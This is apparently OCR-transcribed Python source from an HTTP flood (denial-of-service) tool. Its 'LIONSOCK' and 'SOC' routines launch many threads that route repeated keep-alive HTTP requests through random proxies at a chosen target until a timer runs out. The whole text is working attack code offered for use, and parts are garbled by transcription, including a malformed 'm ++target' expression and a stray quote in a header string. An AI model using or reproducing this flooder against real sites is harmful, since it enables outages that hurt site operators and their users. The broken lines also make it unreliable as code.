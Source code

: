 #region PXSOC
def LaunchLIONSOCK(url, th, t):
    target = get_target(url)
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +target['uri'] + " HTTP/1.1\r\n"
    req += "Host: " + target['host'] + "\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Connection: Keep-Alive\r\n\r\n"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackLIONSOCK, args=(target, until, req))
            thd.start()
        except:
            pass

def AttackLIONSOCK(target, until_datetime, req):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            proxy = random.choice(list(proxies)).split(":")
            if target['scheme'] == 'https':
                s = socks.socksocket()
                s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
                s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
                s.connect((str(target['host']), int(target['port'])))
                s = ssl.create_default_context().wrap_socket(s, server_hostname=target['host'])
            else:
                s = socks.socksocket()
                s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
                s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
                s.connect((str(target['host']), int(target['port'])))
            try:
                for _ in range(100):
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            return
#endregion

#region SOC
def LaunchSOC(url, th, t):
    target = get_target(url)
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m ++target['uri']+" HTTP/1.1\r\nHost: " + target['host'] + "\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Connection: Keep-Alive\r\n\r\n"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackSOC, args=(target, until, req))
            thd.start()
        except:
            pass
